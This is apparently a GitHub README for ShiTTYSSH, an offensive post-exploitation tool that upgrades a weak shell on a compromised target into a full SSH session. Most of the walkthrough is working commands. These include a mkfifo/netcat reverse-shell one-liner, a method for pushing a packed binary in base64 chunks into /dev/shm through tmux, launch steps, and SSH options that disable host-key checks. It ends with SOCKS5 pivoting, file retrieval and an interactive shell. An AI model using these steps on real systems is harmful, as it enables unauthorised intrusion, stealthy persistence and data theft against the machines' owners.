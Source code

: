 # ShiTTYSSH

A user-mode SSH daemon that communicates on stdin/stdout. Expose the ShiTTYSSH terminal to SSH(1) via 'ProxyCommand'.
SFTP, SCP, RPORT, LPORT, and DYNAMIC PORT (SOCKS5), all work as expected. Remember to use a ControlMaster for the first connection.
Upgrading can happen in-band, no new ports or sockets required.

## Compiling

```
go build -ldflags='-w -s'
upx --best shittySSH -o shittyUPX
```

## Credit

Code sloppily 'adapted' from Fahrj's [reverse-ssh](https://github.com/Fahrj/reverse-ssh).

## Issues

Probably. I didn't call it SmarTTYSSH.

## Example

In this example we turn a weak (rev/bind) shell into a capable SSH session.

On our listening post, use [ShiTTYSSHClient](https://github.com/tbiehn/ShiTTYSSHClient) to wrap a listener. `ShiTTYSSHClient` will provide access to the underlying STDIN/STDOUT via a listening TCP socket, this means we can attach and detach without destroying the session - and facilitates the handoff to SSH(1) via `ProxyCommand`.

`./shittySSHClient -cmd 'nc -vvl -p 8080' -listen 127.0.0.1:2222`
This example uses nc to listen for inbound connections to port 8080, via shittySSHClient's `-cmd` argument. You can use whatever you want here. `socat`... tinyshell... whatever. 
This command's stdin/stdout will be served up to clients connecting to localhost on port 2222 as specified by `-listen`. 

Send a simple reverse shell from a target machine using, for example;
`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 8080 >/tmp/f`

Start a `tmux` session that connects to `shittySSHClient` on port 2222;
`tmux new-session -d -s ShiTTY 'nc 127.0.0.1 2222'`
`-d` here means start detached.
`-s` here tells tmux to name the new session `ShiTTY`
`'nc 127.0.0.1 2222'` is the command to run.

You can attach to it from another terminal to watch - `tmux attach-session -t ShiTTY` - you should see a prompt, go ahead and issue an `id` to check it out. Simple shell.

Now we need to put ShiTTYSSH on the target to run it - let's use a `heredoc` and keep it in memory using `/dev/shm/`.
`tmux send -t ShiTTY -l "cat <<'EOF'|base64 -d>/dev/shm/shitty" && tmux send -t ShiTTY ENTER`
This command uses `tmux send` to get a heredoc going through base64 decoding via `base64 -d` into `/dev/shm`. Maybe use a `memfd`. Maybe use a regular file.

If you're watching the session, it might look like this;
```
$ cat <<'EOF'|base64 -d>/dev/shm/shitty
>
```

Next let's send the actual file over the pipe.
`cat ./shittyUPX | base64 -w0 | split -b 500 --filter "xargs -I{} tmux send -t ShiTTY -l {}; tmux send -t ShiTTY ENTER" && tmux send -t ShiTTY -l EOF && tmux send -t ShiTTY ENTER`

First this base64 encodes `shittyUPX` and provides 500 byte chunks to `xargs` via a `split` `--filter` directive. `xargs` will use `tmux send` commands to dump the file into the waiting heredoc. `tmux send -t ShiTTY -l EOF && tmux send -t ShiTTY ENTER` closes the heredoc.

If you want to watch the progress, try launching coreutils `progress -m` in another terminal window. It also doesnt hurt to watch the tmux session fill up with our base64 chunks.

Once that finishes, your session should look something like;
```
> Loads of base64 encoded stuff.
> ...... AA=
> EOF
$
```

That means we're ready to actually launch shittySSH - lets just double check everything went OK;
```
$ md5sum /dev/shm/shitty
02eb5b95261c5042ed6c324085e70c67 /dev/shm/shitty
$
```
And that matches locally with;
```
> md5sum shittyUPX
02eb5b95261c5042ed6c324085e70c67  shittyUPX
```

Now, from tmux, execute shitty; `chmod +x /dev/shm/shitty; /dev/shm/shitty`

This command has no output, so now hand off this socket to ssh by destroying our tmux session and running SSH.

From another terminal, `tmux kill-session -t ShiTTY`, then run SSH with a ControlMaster directive and ProxyCommand, for example;
`ssh -o "PubkeyAuthentication no" -o UserKnownHostsFile=/dev/null -o "StrictHostKeyChecking=no" -o "controlpath /tmp/ssh-shitty" -o ProxyCommand="bash -c '(echo -n G ; cat -) | nc 127.0.0.1 2222'" -C -T -M -N -vvv shitty@x`
Here the command is a bit more complex - this implementation waits for a 'G' on stdin in order to simulate an accepted TCP connection. Our proxycommand echoes the magic character and then runs cat to pipe the rest to nc.

`-C` enables compression,
`-T` doesnt allocate a PTY,
`-M` starts a ControlMaster,
`-N` doesn't request a command.

Work with `ssh` as you usually would.

Get a Socks5 proxy to the remote end.
`ssh -S /tmp/ssh-shitty x -N -D 127.0.0.1:3434`

Grab a file
`sftp -o ControlPath=/tmp/ssh-shitty x@y:/home/user/big.file ~/big.file`
`scp -o ControlPath=/tmp/ssh-shitty x@y:/home/user/big.file ~/big.file`

Get a term.
`ssh -S /tmp/ssh-shitty 'bash -i'`

## License

GPLv3